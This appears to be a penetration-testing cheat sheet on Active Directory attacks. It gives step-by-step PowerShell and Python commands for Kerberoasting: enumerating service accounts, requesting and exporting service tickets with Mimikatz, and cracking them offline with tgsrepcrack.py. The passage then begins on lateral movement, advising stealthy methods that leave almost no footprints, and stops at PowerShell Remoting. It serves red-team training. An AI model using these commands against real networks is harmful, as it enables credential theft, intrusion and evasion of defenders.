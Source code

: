 ### Kerberoasting

- We send all the required details to DC to get a valid TGT, this TGT can be used to get a TGS (for authorization) to access any specific service.

- Upon getting the TGS (encrypted with target service account hash), one can export it and then brute-force it against a password dictionary.

- Also, Administrator generally do not focus on changing the credentials of non-machine service account, we end up getting the clear-text credentials ☺

- In-short, it is the offline brute-forcing of service account credentials.

- Find User accounts which are used as service accounts : 

```powershell
Get-NetUser –SPN
```

- We request the TGS aka service ticket : 

```powershell
Request-SPNTicket
```

- Check ticket in-memory:

```powershell
klist
```

- Export ticket using Mimikatz : 

```powershell
Invoke-Mimikatz -Command 
"kerberos::list /export"
```

- Now, Crack the Service account password using tgsrepcrack.py

```python
python.exe .\tgsrepcrack.py .\passwords.txt ‘.\Ticket.kirbi'
```

### Lateral Movement

- The Adversary will try to move laterally in the environment in search for some critical servers/assets.

- Some of the techniques that can be used are : 
  - PowerShell Remoting
  - Windows Management Instrumentation (WMI)
  - Invoke-Mimikatz.ps1 etc

- It is advised to choose a method which is stealth and leave almost no footprints on ANY machines the Adversary is targeting.

### PowerShell Remoting

- It used WinRM protocol and runs by-default on TCP ports 5985 (HTTP) and 5986 (HTTPS)
